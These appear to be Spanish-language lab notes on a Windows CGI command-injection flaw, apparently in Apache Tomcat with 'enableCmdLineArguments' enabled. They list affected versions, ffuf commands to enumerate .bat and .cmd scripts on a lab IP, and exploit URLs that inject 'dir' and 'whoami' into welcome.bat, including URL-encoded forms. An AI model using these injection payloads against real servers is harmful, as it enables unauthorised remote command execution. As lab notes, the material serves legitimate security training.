 - Posee una vulnerabilidad en los sistemas Windows que tengan el parametro "enableCmdLineArguments" activado.
- Las versiones afectadas son:
      - 9.0.0.M1 a 9.0.17
      - 8.5.0 a 8.5.39
      - 7.0.0 a 7.0.93


### Enum
##### Buscar cmds:
    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
##### Bucar bachs:

    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat

### EXPLOITATION
##### Agregamos como parámetro el comando que queremos correr:
    http://10.129.204.227:8080/cgi/welcome.bat?&dir


si el comando es complicado, deberemos encodear en URL.
##### Ej:
para whoami:
            http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
Encodeado:
            http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
            

